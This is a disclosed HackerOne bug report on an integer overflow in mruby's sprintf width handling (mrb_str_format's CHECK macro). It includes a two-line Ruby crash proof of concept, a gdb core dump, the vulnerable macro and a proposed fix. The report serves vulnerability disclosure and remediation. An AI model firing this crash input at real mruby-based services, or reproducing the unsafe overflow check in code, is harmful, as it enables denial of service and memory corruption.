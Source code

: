 # segafult in mruby's sprintf - mrb_str_format

## Report Details
- **Report ID**: 204628
- **URL**: https://hackerone.com/reports/204628
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-02-08T15:18:56.665Z
- **Disclosed**: 2017-02-28T20:24:47.917Z

## Reporter
- **Username**: aerodudrizzt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
The mruby sprintf gem (out of scope of mruby-engine) can be crashed when using a hostile "width" value in the format string.

Exploit Script
===========
```ruby
s = "hello"
sprintf("abcdefghijklmnopqrstuvwxyz % 2147483640s", s)
```

Here is the core dump:
```
Core was generated by `ext/mruby_engine/mruby/build/host/bin/mirb'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xb768bd7a in ?? ()
(gdb) bt
#0  0xb768bd7a in ?? ()
#1  0x00000006 in ?? ()
#2  0x0813d000 in ?? ()
Backtrace stopped: previous frame inner to this frame (corrupt stack?)
(gdb) info reg
eax            0x20202020	538976288
ecx            0x1fff62c7	536830663
edx            0x1	1
ebx            0x800	2048
esp            0xbfe037c4	0xbfe037c4
ebp            0x78	0x78
esi            0x81d7dc8	136150472
edi            0x8216000	136404992
eip            0xb768bd7a	0xb768bd7a
eflags         0x10202	[ IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

Tech Details
==========
The sprintf.c file in the mrb_str_format() function is responsible for the building of the formatted string. When using a "width" value for anything (string, char, number, etc...) there is an integer-overflow in the CHECK() macro that is responsible for assuring the string's capacity will be enough for the operation:
```cpp
#define CHECK(l) do { \
  while (blen + (l) >= bsiz) {\
    bsiz*=2;\
  }\
  mrb_str_resize(mrb, result, bsiz);\
  buf += RSTRING_PTR(result);\
} while(0)
``` 

Proposed Fix
===========
Since ```bsiz``` is always bigger-or-equal to ```blen``` the right check should be:
```cpp
#define CHECK(l) do { \
  while ((l) >= bsiz - blen) {\
    bsiz*=2;\
  }\
  mrb_str_resize(mrb, result, bsiz);\
  buf += RSTRING_PTR(result);\
} while(0)
``` 
This way no arithmetic operation will done over the "width" parameter which can be up to MAX_INT in size, causing many possible integer-overflow.

## Attachments
No attachments
